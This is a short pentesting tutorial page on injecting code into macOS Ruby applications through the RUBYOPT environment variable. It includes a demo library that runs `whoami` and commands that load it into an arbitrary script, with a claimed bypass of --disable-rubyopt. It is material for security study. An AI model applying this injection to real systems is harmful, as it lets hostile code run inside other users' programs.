 # macOS Ruby Applications Injection

{#include ../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

## RUBYOPT

Using this env variable it's possible to **add new params** to **ruby** whenever it gets executed. Although the param **`-e`** cannot be used to specify ruby code to execute, it's possible to use the params **`-I`** and **`-r`** to add a new folder to the libraries to load path and then **specify a library to load**.

Create the library **`inject.rb`** in **`/tmp`**:

```ruby:inject.rb
puts `whoami`
```

Create anywahere a ruby script like:

```ruby:hello.rb
puts 'Hello, World!'
```

Then make an arbitrary ruby script load it with:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```

Fun fact, it works even with param **`--disable-rubyopt`**:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```

{#include ../../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


